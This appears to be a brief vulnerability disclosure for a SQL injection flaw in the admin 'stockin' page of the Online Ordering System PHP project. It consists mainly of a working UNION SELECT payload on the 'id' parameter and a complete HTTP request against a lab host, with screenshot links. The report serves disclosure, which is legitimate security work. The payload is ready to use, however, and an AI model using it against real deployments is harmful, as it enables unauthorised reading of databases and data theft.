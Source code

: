 # Online Ordering System By janobe has SQL injection vulnerability

Author： k0xx

vendor: https://www.sourcecodester.com/php/12978/online-ordering-system-phpmysqli.html

Vulnerability file: /ordering/admin/stockin/index.php?view=edit&id=

Vulnerability location: /ordering/admin/stockin/index.php?view=edit&id= //id is Injection point

[+]Payload: /ordering/admin/stockin/index.php?view=edit&id=-2%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17--+ //id is Injection point

Current database name: multistoredb

```sql
GET /ordering/admin/stockin/index.php?view=edit&id=-2%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/168950331-bc510eb4-db68-4223-a739-9d9f0922ef67.png)

![image](https://user-images.githubusercontent.com/54017627/168950384-a57604bc-fe28-4008-8393-4efa6e74d078.png)
